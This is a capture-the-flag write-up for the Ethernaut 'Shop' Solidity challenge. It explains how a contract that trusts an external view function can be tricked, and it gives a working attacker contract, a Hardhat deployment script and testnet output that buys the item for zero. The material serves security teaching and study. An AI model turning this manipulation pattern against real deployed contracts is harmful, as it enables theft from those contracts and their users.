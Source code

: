 ```yaml
---
title: Ethernaut #21 Shop
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Shop challenge writeup
---
```


## Shop

### Challenge

Сan you get the item from the shop for less than the price asked?

#### Things that might help:

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Background

By the looks of it this challange is a bit akward. It does not seem to accomplish much by design, but after trying to solve it, the point of it is clear. In general it looks a lot like the `Elevator` challange. However, in this case the function is a `view` which means it cannot update the contract state. For the `Elevator` challange the contract state update was used as the main technique to change the return value.

In this case, since the state "cannot" be updated that easily, we could relly on "side-channel" techniques to achieve this such as measuring the remaining gas, or check other state changing variables. In this case such a variable exists and it is the `isSold` variable in the `Shop` contract.

I actually believe that if we where to skip all the compiler checks in solidity (if that is possible), or just write a function in raw EVM assembly, we could possibly bypass the `view` restriction and have a state changing function. However, I did not try this and I'm not sure it would work, I just don't clearly see why it wouldn't.

### Attack

Create a contract that implements the `Buyer` `interface`. This contract should be able to call the `Shop` contract `buy` function and return `100` or `0` for price depending if the `Shop` variable `isSold` is set or not. If the `isSold` is set, it should return `0` otherwise it should return `100`. This way, during the first check, the function will return `100` while at the second check it would return `0`.

* Create a contract that:
  * impelemnts the `Buyer` `interface` but when `price` is called, the price return would depend on the `Shop` contracts `isSold` variable
    * If `isSold` is `true` -> return `0`
    * If `isSold` is `false` -> return `100`
  * implements a `buy` function that triggers the `Shop` contract `buy` function
* Trigger the attacker contract `buy` function

#### ShopSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import "../challenges/Shop.sol";

contract ShopSolve {
    Shop shopContract;

    constructor(address payable _shop) public {
        shopContract = Shop(_shop);
    }

    function buy() public payable {
        shopContract.buy();
    }

    function price() external view returns (uint256) {
        if (shopContract.isSold()) {
            return 0;
        }
        return 100;
    }
}
```

#### shop-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    shopAddress = "0x7B710215cc6901910B2940D2CC8b5758eB7d70B7";
    contract = await ethers.getContractAt("Shop", shopAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ShopSolve = await ethers.getContractFactory("ShopSolve");
    shopSolve = await ShopSolve.deploy(contract.address);
    await shopSolve.deployed();

    console.log("Level address : " + contract.address)
    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())

    // trigger attacker contract buy function
    tx = await shopSolve.connect(account).buy()
    receipt = await tx.wait()

    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/shop-solve.js --network rinkeby
Level address : 0x7B710215cc6901910B2940D2CC8b5758eB7d70B7
Is Sold       : false
Price         : 100
Is Sold       : true
Price         : 0
```

### Success Message

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
